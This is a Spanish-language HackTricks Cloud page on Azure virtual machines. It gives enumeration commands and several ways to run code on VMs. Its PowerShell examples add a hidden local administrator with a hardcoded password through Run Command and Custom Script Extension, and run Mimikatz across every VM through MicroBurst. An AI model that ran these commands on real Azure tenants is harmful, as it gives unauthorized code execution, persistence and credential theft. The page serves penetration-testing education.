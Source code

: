 # Az - Máquinas Virtuales y Red

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información básica

[De la documentación:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Las máquinas virtuales de Azure son uno de varios tipos de [recursos de computación escalables bajo demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que ofrece Azure. Típicamente, eliges una máquina virtual cuando necesitas más control sobre el entorno de computación que las otras opciones ofrecen. Este artículo te proporciona información sobre lo que debes considerar antes de crear una máquina virtual, cómo crearla y cómo gestionarla.

## Información de Red de Azure

Las redes de Azure contienen **diferentes entidades y formas de configurarlas.** Puedes encontrar una breve **descripción,** **ejemplos** y comandos de **enumeración** de las diferentes entidades de red de Azure en:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** ofrece una solución segura y completamente gestionada de acceso RDP (Protocolo de Escritorio Remoto) y SSH (Shell Seguro) a través de SSL mediante el portal de Azure. Está integrado dentro de una Red Virtual de Azure, permitiendo conectividad RDP y SSH a las máquinas virtuales utilizando IPs privadas, evitando la necesidad de IPs públicas. Esto lo convierte en una alternativa más segura y conveniente a los métodos tradicionales que implican asignaciones de IP públicas y configuraciones de reglas NSG para el acceso a máquinas virtuales. Los desarrolladores y el personal de TI pueden acceder de forma segura a las máquinas virtuales desde el portal de Azure utilizando sus navegadores web, agilizando el proceso para entornos de desarrollo y pruebas.

Para listar todos los Hosts de Azure Bastion en tu suscripción, puedes usar el siguiente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeración de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Ejecutar comandos en una VM**

### **Inicio de sesión AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) podrías obtener un error como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Simplemente **sigue esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, usa el correo electrónico y la contraseña como credenciales y podrás conectarte a través de SSH (si ese usuario tiene suficientes permisos para hacerlo: rol de `Inicio de sesión de administrador de máquina virtual` o `Inicio de sesión de usuario de máquina virtual`).

### **Ejecutar comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ejecutar Extensión de Script Personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración y automatización **tareas** posteriores a la implementación en **VMs de Azure**. Por ejemplo, si una máquina virtual requiere instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puedes usar una extensión de VM.

Por lo tanto, si tienes acceso para escribirlo, puedes ejecutar código arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) es una herramienta de PowerShell similar a Ansible, utilizada para configurar un host a través de código. DSC se integra con Azure, permitiendo la carga de archivos de configuración específicos. Estos archivos deben adherirse a una sintaxis estricta. Notablemente, la extensión DSC en Azure puede ejecutar comandos de archivos que cumplen con ciertos criterios de formato, incluso si la sintaxis no es correcta según los estándares de DSC, como se muestra en la figura proporcionada.

La ejecución de estos comandos es facilitada por la [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) función en Az PowerShell. Los requisitos incluyen un archivo **.PS1** con una función definida y el archivo debe estar comprimido en un archivo **.zip**. Aunque la sintaxis puede no ser precisa para DSC, el código aún se ejecutará. Sin embargo, la extensión marcará el estado de ejecución como "fallo", y no se verá ninguna salida del comando debido a que el estado es sobrescrito por el mensaje de fallo.

### VM Application Definitions

Las Definiciones de Aplicaciones de VM permiten el despliegue repetible de aplicaciones versionadas en una VM de Azure. Este recurso admite el despliegue y la actualización de aplicaciones en VMs. Para configurar esto, se requieren varios pasos, que implican comandos como **`New-AzGalleryApplication`** y **`New-AzGalleryApplicationVersion`** en Az PowerShell.

La ejecución de aplicaciones o comandos a través de este método involucra la **"VMAppExtension"**, que se instala automáticamente cuando se aplica una aplicación a una VM. La extensión recupera el archivo de la URI especificada y lo nombra exactamente como la aplicación, sin una extensión. Para ejecutar el archivo correctamente, el campo "ManageActions" en la llamada a la API REST debe configurarse para renombrar el archivo con la extensión apropiada. La configuración de este método, una vez completada, se parecerá a la estructura mostrada en la figura proporcionada.

Sin embargo, este método de ejecución es relativamente lento, tardando alrededor de 3-4 minutos en ejecutar una aplicación o comando. Los archivos relacionados con este proceso se almacenan en directorios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para la copia de la aplicación y `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para el estado de ejecución).

Ambas técnicas proporcionan formas únicas de ejecutar comandos y desplegar aplicaciones en entornos de Azure, cada una con su propio conjunto de requisitos, pasos y consideraciones.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) son una característica en Azure que permite que los Runbooks, configurados en una Cuenta de Automatización, se ejecuten en una Máquina Virtual (VM) de Azure que forma parte del HWG designado. Esta ejecución es facilitada a través de una extensión instalada en la VM, que despliega el código del Runbook en la VM. Un aspecto significativo de este proceso es que las credenciales reales no son un factor en la ejecución porque el código se ejecuta con privilegios elevados, específicamente como **SYSTEM** o root, como se ilustra en la figura proporcionada.

Un detalle crucial para aquellos que utilizan VMs de Windows 10 es la necesidad de especificar la versión de PowerShell para el Runbook. Debe configurarse para ejecutarse como PowerShell Versión 5.1 en lugar de 7.1. Este requisito surge del hecho de que PowerShell 7.1 no está instalado por defecto en estas VMs, lo que lleva a un fallo en la ejecución del script si se especifica la versión 7.1.

Esta característica de Azure ofrece un método robusto para automatizar y gestionar tareas en entornos híbridos, permitiendo la gestión y ejecución centralizada de tareas en VMs de Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
